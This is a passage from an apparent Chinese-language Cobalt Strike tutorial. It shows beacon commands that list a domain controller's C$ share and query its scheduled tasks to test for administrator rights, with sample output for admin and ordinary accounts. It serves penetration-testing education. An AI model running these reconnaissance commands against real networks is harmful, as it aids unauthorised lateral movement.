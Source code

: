 
```powershell
shell dir \\host\C$
```

```powershell
#管理员账号运行结果
beacon> shell dir \\WinDC\C$
[*] Tasked beacon to run: dir \\WinDC\C$
[+] host called home, sent: 55 bytes
[+] received output:
 驱动器 \\WinDC\C$ 中的卷没有标签。
 卷的序列号是 F269-89A7
 \\WinDC\C$ 的目录
2020/06/24  09:29    <DIR>          inetpub
2009/07/14  11:20    <DIR>          PerfLogs
2020/07/16  21:24    <DIR>          Program Files
2020/07/16  21:52    <DIR>          Program Files (x86)
2020/07/17  23:00    <DIR>          Users
2020/07/26  00:55    <DIR>          Windows
               0 个文件              0 字节
               6 个目录 28,500,807,680 可用字节
```

```powershell
#一般账号运行结果
beacon> shell dir \\WinDC\C$
[*] Tasked beacon to run: dir \\WinDC\C$
[+] host called home, sent: 55 bytes
[+] received output:
拒绝访问。
```

也可以运行其他命令，比如运行下面的 at 命令来查看系统上的计划任务列表，如果显示出了任务列表信息，那么可能是本地管理员。（当任务列表没有信息时会返回 “列表是空的” 提示）

```powershell
shell at \\host
```

```powershell
#管理员账号运行结果
beacon> shell at \\WinDC
[*] Tasked beacon to run: at \\WinDC
[+] host called home, sent: 51 bytes
[+] received output:
状态 ID     日期                    时间          命令行
-------------------------------------------------------------------------------
        1   今天                    22:30         E:\Install\Thunder\Thunder.exe
```

```powershell
#一般账号运行结果
beacon> shell at \\WinDC
[*] Tasked beacon to run: at \\WinDC
[+] host called home, sent: 51 bytes
[+] received output:
拒绝访问。
```
